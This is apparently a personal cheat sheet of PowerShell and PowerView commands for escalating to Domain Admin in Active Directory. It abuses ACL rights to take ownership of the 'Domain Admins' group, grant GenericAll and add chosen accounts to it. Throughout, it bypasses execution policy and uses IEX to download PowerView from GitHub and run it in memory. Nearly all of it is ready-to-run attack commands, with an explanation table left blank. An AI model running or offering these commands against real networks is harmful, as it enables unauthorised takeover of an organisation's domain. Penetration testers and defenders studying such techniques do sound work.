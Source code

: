 #### Power view cheet
-----------------------------------------------------------------------
# Commands
>powershell -ep bypass /
>Import-Module .\PowerView.ps1\ 
>Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'
>Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"
>net group "domain admins" goodboy /add /domain

------------------------------------------------------------------------------------------------------------
# Import the AD module (requires RSAT or AD PowerShell tools)
>Import-Module ActiveDirectory

# Now try the command again
>$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

--------------------------------------------------------------------------------------------------------
>$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"
>$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity

------------------------------------------------------------------------------------------------------------
# Create the AD: drive if missing
>New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"

# Now get ACL
>$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

---------------------------------------------------------------------
# 1. Take ownership
>$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
>$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))
>$group.psbase.CommitChanges()

# 2. Add self to group
>$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")


Key Explanations:

Permission	Why Needed
Modify owner	
Modify permissions	
Write properties	


---------------------------------------------------------------------------------
with ✔ Modify permissions

>IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

>Get-Command -Module PowerView
(If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
>Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
>Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
>Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
>Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
--------------------------------------------------------------------------------------------------------

## with permission  - write all properties ✔ is  only enabled

### if powerview  fails
>$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
>$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")

---------------------------------------------------------------------------
### with permissions - ✔ modify owner is only enabled

>IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
. or downloade the script and run by import

>powershell -ep bypass
>Import-Module .\powerview.ps1

>Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

>Set-ExecutionPolicy Bypass -Scope Process -Force

# 1. Take ownership
>Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

# 2. Grant yourself GenericAll
>Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

# 3. Add to group
>Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose